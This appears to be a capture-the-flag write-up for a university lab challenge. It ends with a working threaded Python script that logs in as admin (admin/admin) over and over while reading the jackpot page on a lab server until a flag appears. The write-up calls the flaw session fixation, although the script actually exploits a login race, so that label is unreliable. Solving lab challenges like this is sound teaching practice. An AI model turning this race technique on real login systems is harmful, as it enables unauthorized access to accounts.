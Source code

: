 # Challenge Another_Jackpot Writeup

## Vulnerability: Session Fixation

Session fixation is the type of vulnerability being exploited in this challenge.

## Where: Login Mechanism

The vulnerability is present in the login mechanism, specifically in the way sessions are handled. The code suggests that the session is not being properly regenerated or invalidated after a user logs in.

## Impact: Unauthorized Access to Jackpot

Exploiting this vulnerability allows an attacker to gain unauthorized access to the jackpot page. By manipulating the session, an attacker can log in as an admin and access the jackpot without the legitimate credentials.

## Steps to Reproduce

1. **Session Fixation Attack:**
   - The attacker repeatedly logs in as an admin using the provided credentials.
   - The vulnerable code does not properly reset or regenerate the session after a successful login.

2. **Access Jackpot:**
   - As the session remains fixed, the attacker concurrently accesses the jackpot page.
   - The vulnerability allows the attacker to access the jackpot without a valid admin session.

3. **Enumeration of Jackpot:**
   - The attacker looks for the presence of the string "SSof{" in the response text after accessing the jackpot.
   - If the string is present, it indicates successful exploitation, and the jackpot content is printed.

4. **Unauthorized Access:**
   - The attacker achieves unauthorized access to the jackpot page, potentially gaining sensitive information.

## NOTE

The code lacks proper session management, allowing an attacker to fixate the session and exploit the login mechanism to gain unauthorized access to the jackpot. In a secure system, sessions should be regenerated or invalidated after successful logins to prevent session fixation attacks. Additionally, sensitive operations like accessing the jackpot should be protected by proper authorization mechanisms.

---

```python
import requests
import threading

TARGET_URL = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23652/"
LOGIN_URL = TARGET_URL + "login"
JACKPOT_URL = TARGET_URL + "jackpot"

# Set your credentials
credentials_admin = {"username": "admin", "password": "admin"}
# Session to maintain cookies
session = requests.Session()

def try_access_jackpot():
    while True:
        # Access the jackpot page
        response = session.get(JACKPOT_URL)
        if "SSof{" in response.text:
            print(response.text)

def try_login_as_admin():
    while True:
        # Login with the admin credentials
        response = session.post(LOGIN_URL, data=credentials_admin)
        if "SSof{" in response.text:
            print(response.text)

# Create threads
jackpot_thread = threading.Thread(target=try_access_jackpot)
login_thread = threading.Thread(target=try_login_as_admin)

# Start threads
jackpot_thread.start()
login_thread.start()

# Wait for threads to finish (this will never happen in this example)
jackpot_thread.join()
login_thread.join()
